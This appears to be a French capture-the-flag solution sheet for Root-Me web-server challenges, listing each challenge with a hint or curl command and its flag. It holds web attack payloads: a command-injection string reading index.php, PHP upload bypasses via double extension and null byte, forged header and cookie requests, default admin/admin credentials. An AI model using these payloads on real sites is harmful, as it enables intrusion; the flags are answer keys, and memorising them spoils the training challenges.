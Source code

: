 # web-server

## HTML - Code source
hint: inspecter élément
- nZ^&@q5&sjJHev0 

## HTTP - Open redirect

solve:  curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o solve.txt 

- e6f8a530811d5a479812d7b82fc1a5c5 


## HTTP - User-agent


solve: curl -H "User-Agent: admin" http://challenge01.root-me.org/web-serveur/ch2/

- rr$Li9%L34qd1AAe27


## Mot de passe faible

solve: admin/admin

- admin

## PHP - Injection de commande

solve: | cat index.php 

- S3rv1ceP1n9Sup3rS3cure

## Fichier de sauvegarde

solve: index.php~ 

- OCCY9AcNm1tj

## HTTP - Directory indexing

hint: admin/backup/admin.txt

- LINUX

## HTTP - Headers
hint: python headers.py ou curl --header "Header-RootMe-Admin:admin" http://challenge01.root-me.org/web-serveur/ch5/

- HeadersMayBeUseful

## HTTP - Post
hint: supprimer le js et modifier le score

- H7tp_h4s_N0_s3Cr37S_F0r_y0U

## HTTP - Improper redirect
hint: curl http://challenge01.root-me.org/web-serveur/ch32/

- ExecutionAfterRedirectIsBad

## HTTP - Verb tampering

hint: curl -X PUT http://challenge01.root-me.org/web-serveur/ch8/

- a23e$dme96d3saez$$prap

## Install files

hint: phpbb/install/install.php 

- karambar

## File upload - Double extensions
hint: poster le fichier upload.php et le changer en upload.php.png 

- Gg9LRz-hWSxqqUKd77-_q-6G8

## File upload - Type MIME
hint: poster le fichier upload.php et le changer en upload.php%00.png 

## HTTP - Cookies

hint: utiliser curl 

- curl http://challenge01.root-me.org/web-serveur/ch7/ --cookie "ch7=admin"  | cut -d '<' -f2  | cut -d ':' -f2

- ml-SYMPA 

## File upload - Null byte
- utiliser le fichier nullbyte.php%00.png 
- YPNchi2NmTwygr2dgCCF